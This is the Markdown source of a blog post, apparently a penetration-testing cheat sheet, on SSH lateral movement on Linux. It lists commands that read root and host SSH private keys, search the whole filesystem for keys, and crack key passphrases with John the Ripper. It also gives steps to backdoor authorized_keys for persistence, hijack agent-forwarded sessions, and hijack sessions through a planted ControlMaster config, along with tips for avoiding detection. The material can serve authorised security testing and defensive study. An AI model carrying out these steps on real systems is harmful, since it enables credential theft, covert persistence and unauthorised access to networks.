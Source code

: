 ```yaml
---
layout: blog_item
title: "SSH Lateral Movement Cheat Sheet"
date:   2021-06-03 15:29:10
author: Arr0way
description: 'SSH lateral movement cheat sheet, a collection of lateral movement techniques to move deeper through the network.'
categories: [cheat-sheet]
tags:

- 'Linux Lateral Movement'
---
```


* list element with functor item
{:toc}

## What is a Lateral Movement 

A lateral movement typically occurs after a host has been compromised via a reverse shell, and foothold in the network is obtained. Fully compromising the target machine by performing Linux privilege escalation or Windows privilege escalation could be adventagious due to the increased access to files or operating system functionality leveraged by a root level account.

This article focuses specifically on SSH lateral movement techniques on Linux.

<!--more-->

## SSH Lateral Movement 

SSH private keys are typically an easy way to progress through the network, and are often found with poor permissions or duplicated in home directories. This article does not cover SSH pivoting in depth, we have a seperate resource for [SSH pivoting](https://highon.coffee/blog/ssh-meterpreter-pivoting-techniques/).  

<div class="note info">
  <h5>SSH is no longer specific to Linux hosts only</h5>
  <p>SSH is no longer specific to Linux hosts only, consider enumerating Windows target for private keys.</p>
</div>

### Manually Look for SSH Keys

Check home directories and obvious locations for private key files: 

{% highlight bash %}

/home/*
cat /root/.ssh/authorized\_keys 
cat /root/.ssh/identity.pub 
cat /root/.ssh/identity 
cat /root/.ssh/id\_rsa.pub 
cat /root/.ssh/id\_rsa 
cat /root/.ssh/id\_dsa.pub 
cat /root/.ssh/id\_dsa 
cat /etc/ssh/ssh\_config 
cat /etc/ssh/sshd\_config 
cat /etc/ssh/ssh\_host\_dsa\_key.pub 
cat /etc/ssh/ssh\_host\_dsa\_key 
cat /etc/ssh/ssh\_host\_rsa\_key.pub 
cat /etc/ssh/ssh\_host\_rsa\_key 
cat /etc/ssh/ssh\_host\_key.pub 
cat /etc/ssh/ssh\_host\_key
cat ~/.ssh/authorized\_keys 
cat ~/.ssh/identity.pub 
cat ~/.ssh/identity 
cat ~/.ssh/id\_rsa.pub 
cat ~/.ssh/id\_rsa 
cat ~/.ssh/id\_dsa.pub 
cat ~/.ssh/id\_dsa 

{% endhighlight %}

### Search For Files Containing SSH Keys

{% highlight bash %} 
grep -irv "-----BEGIN RSA PRIVATE KEY-----" /home/*
grep -irv "BEGIN DSA PRIVATE KEY" /home/*

grep -irv "BEGIN RSA PRIVATE KEY" /*
grep -irv "BEGIN DSA PRIVATE KEY" /*

{% endhighlight %}


### Identify The Host for the Key

<div class="note tip">
  <h5>Hashed known_hosts</h5>
  <p>Modern Linux systems may hash the known_hosts file entries to help prevent against enumeration.</p>
</div>

If you find a key you then need to identify what server the key is for. In an attempt to idenitfy what host the key is for the following locations should be checked: 

{% highlight bash %}
/etc/hosts 
~/.known_hosts
~/.bash_history 
~/.ssh/config 
{% endhighlight %}

### Cracking SSH Passphrase Keys

If the discovered SSH key is encrypted with a passphrase this can be cracked locally (much faster), below are several methods. If you have access to a GPU hashcat should be leveraged to improve the cracking time. 

#### Cracking SSH Passphrase with John the Ripper 

John the Ripper has a function to convert he key to a hash called john2hash.py and comes pre installed on Kali.

1. Convert the hash: python /usr/share/john/ssh2john.py id_rsa > id_rsa.hash-john 
2. Use a comprehensive wordlist: john --wordlist=/usr/share/wordlists/rockyou.txt id_rsa.hash-john 
3. Wait and hope 

<div class="note warning">
  <h5>Help Avoid Detection</h5>
  <p>Avoid directly connecting from a unknown host to the target SSH server, use an already known host to help prevent detection alerts being issued. </p>
</div>

### SSH Passphrase Backdoor

While you have access to the compromised host, it is typically a good idea to backdoor the SSH authorized_keys file which will allow for passwordless login at a point in the future. This should provide an easier and more reliable connection than exploiting and accessing via a reverse shell; and potentially reduce the risk of detection. 

Adding the key is simply a case of paste a SSH public key, generated on your attacking machine and pasting it into the ~/ssh/authorized_keys file on the compromised machine. 

1. run ssh-keygen -t rsa -b 4096 
2. cat id_rsa.pub and copy the file contents 
3. echo "SSH key data" >> ~/.ssh/authorized_keys 
4. Test you can connect using the private key without being prompted for a password 

## SSH Agent Forwarding Hijacking

Starting point: You have SSH already backdoored the compromised host by adding your public key to the ~/.authorized_keys file.  

### How SSH Agent Works

SSH agent works by allowing the Intermediary machine to pass-through (forward) your SSH key from your client to the next downstream server, allowing the machine in the middle (potentially a bastian host) to use your key without having physical access to your key as they are not stored on the intermediate host but simply forwarded on to the downstream target server. 

- Access the machine where the existing vistim user session is established
- Root level access to the machine where the victim session is established
- A current victim SSH  connection with agent forwarding enabled 

Your Machine => Intermediary Host (forwards your key) => Downsteam Machine 

#### The Risk

The risk here is that if you have an open session and the intermedatory machine 

### How To Hijack SSH Agent Forwarding

Attacking Machine => Compromised Intermediary Host (with SSH Key) => Downsteam Machine (final destination) 

SSH agent forwarding allows a user to connect to other machines without entering passwords. This functionality can be exploited to access any host the compromised users SSH key has access to (without having direct access to the keys), while there is an active session. 

A potentially easier way to think of SSH agent forwarding, is to think of it as assigning the SSH key to the active SSH session, while the session is in place it is possible to access the SSH key and connect to other machines that the SSH key has access.     

In order to exploit SSH agent forwarding an active session must be open between the users client (that you wish to hijack) and the compromised intermediary host. You will also require access to the host where the user connect is with a superuser account with the privilages (such as ```su - username```) to access the account running the active SSH session you wish to hijack. 

<div class="note tip">
  <h5>If -A SSH Connection Fails</h5>
  <p>If -A fails to connect, perform the following: ```echo "ForwardingAgent yes" >> ~/.ssh/config``` to enable agent forwarding. </p>
</div>

#### Client Instructions 

Run the following on your local client machine: 

You may need to create a new key, if so run ```ssh-add```. 

1. Open an SSH connection using agent forwarding to the compromised host  ```ssh -A user@compromsied-host``` 
2. Verify agent forwarding is working by using: ```ssh-add -l```
3. Obtain root: ```sudo -s```
4. Gain access to the account you wish to access:  ``` su - victim ```
5. Access any SSH connection the private key of the victim has access 

### SSH Hijacking with ControlMaster 

OpenSSH has an function called **ControlMaster** that enables the sharing of multiple sessions over a single network connection. Allowing you to connect to the server once and have all other subsequent ssh sessions use the initial connection. 

In order to exploit SSH ControlMaster you first need shell level access to the target, you will then need sufficient privileges to modify the config of a user to enable the  ControlMaster functionality.

1. Gain shell level access to the target machine 
2. Access the victim users home directory and create / modify the file ``` ~/.ssh/config ``` 
3. Add the following configuration: 

{% highlight bash %}
Host *

ControlMaster auto
~/.ssh/master-socket/%r@%h:%p
ControlPersist yes
{% endhighlight %}

4. ensure the master-socket directory exists if it does not, create it  ```mkdir ~/.ssh/master-socket/ ``` 
5. Ensure the correct permissions are in place for the config file  ```chmod 600 ~/.ssh/config ```
6. Wait for the victim to login and establish a connection to another server 
7. View the directory created at step 4 to observe the socket file:  ```ls -lat ~/.ssh/master-socket ```
8. To hijack the existing connection ssh to user@hostname / IP listed in step 7 


If you know of more techniques let me know on twitter @Arr0way 

Enjoy. 
